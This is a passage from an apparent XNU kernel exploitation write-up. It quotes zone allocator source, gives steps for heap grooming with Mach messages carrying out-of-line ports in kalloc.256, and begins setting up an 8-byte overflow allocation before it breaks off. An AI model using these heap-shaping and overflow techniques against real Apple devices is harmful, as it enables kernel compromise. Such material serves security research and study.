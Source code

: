 `zalloc` will call `try_alloc_from_zone`(called by `zalloc_internal` actually). It will return the first element in the `free_list`.

```c
// osfmk/kern/zalloc.c
static inline vm_offset_t
try_alloc_from_zone(zone_t zone,
                    boolean_t* check_poison)
{
  // ...
  element = (vm_offset_t)page_metadata_get_freelist(page_meta);
  // ...
  vm_offset_t *primary = (vm_offset_t *) element;
	vm_offset_t *backup  = get_backup_ptr(zone->elem_size, primary);

	/* 
	 * Since the primary next pointer is xor'ed with zp_nopoison_cookie
	 * for obfuscation, retrieve the original value back
	 */
	vm_offset_t  next_element          = *primary ^ zp_nopoison_cookie;
	vm_offset_t  next_element_primary  = *primary;
	vm_offset_t  next_element_backup   = *backup;
  // ...
  return element;
}
```

And `free_to_zone` will add free element to the front of `free_list`

```c
static inline void
free_to_zone(zone_t      zone,
             vm_offset_t element,
             boolean_t   poison);
```



We use the following steps to control the memory layout

- First, send a lot of messages with OOL ports to kernel(don't send to much messages here). 

- Then receive some messages to free some ports in kalloc.256. 

- Finally, send some messages again, then newly allocated memory will be allocated near the area that was just freed.

### Overflow

Preparing parameter.
```c
	uint64_t cp_size = kalloc_size + 8;  // 8 for overflow size
	uint64_t roundup_size = roundup(cp_size, getpagesize());
	uint64_t alloc_size = roundup_size + getpagesize();
```

Allocating memory
```c
kr = mach_vm_allocate(mach_task_self(), &map_addr, alloc_size, VM_FLAGS_ANYWHERE);
```
